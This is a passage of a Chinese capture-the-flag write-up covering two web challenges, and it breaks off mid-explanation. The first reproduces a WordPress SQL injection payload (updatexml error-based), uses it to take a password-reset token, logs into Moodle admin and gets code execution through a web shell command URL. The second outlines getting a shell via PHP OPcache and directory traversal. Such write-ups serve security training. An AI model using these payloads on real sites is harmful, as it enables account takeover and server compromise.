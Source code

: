 没有一些新颖的考点，主要就是对漏洞的复现。

根据题目是需要我们去复现wordpress的漏洞

https://www.freebuf.com/articles/web/321297.html

###  wp

给出的payload

```
action=aa&query_vars[tax_query][1][include_children]=1&query_vars[tax_query][1][terms][1]=1) or updatexml(0x7e,concat(1,user()),0x7e)#&query_vars[tax_query][1][field]=term_taxonomy_id
```

1. 首先发起重置admin(sql注入可知用户名)密码请求，接着利用wp的SQL注入获取重置密码链接的token

![30936918-0ad2-4993-b426-45c0186e2f5e](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/30936918-0ad2-4993-b426-45c0186e2f5e.png)

拿到token后重置密码实现moodle后台登录

直接利用上传插件进行RCE

https://github.com/HoangKien1020/Moodle_RCE

这个flag也是特别难找，还是直接利用find命令找到flag

```
/blocks/rce/lang/en/block_rce.php?cmd=find / -type f |xargs grep "flag{"
```

## web--uploadpro

### 考点：

opcache来getshell

难点就是：时间戳的问题和本地构造恶意bin文件

###  wp

打开页面，又是一个上传文件的界面，只能说qwb好喜欢出上传文件的题目

有一些文件后缀的限制，但是留了一些bin，hex，dat后缀

而且存在phpinfo界面，先看php的配置，结合bin文件的上传，想到了opcache来getshell

https://xz.aliyun.com/t/223#toc-0

https://chybeta.github.io/2017/05/13/%E5%88%A9%E7%94%A8PHP%E7%9A%84OPcache%E6%9C%BA%E5%88%B6getshell/

opcache的getshell条件：

1. phpinfo(),已经满足了

2. 上传的文件路径可以控制

测试发现可以就进行目录穿越，我们先读下文件，发现一读根目录的flag和var目录，就出现403
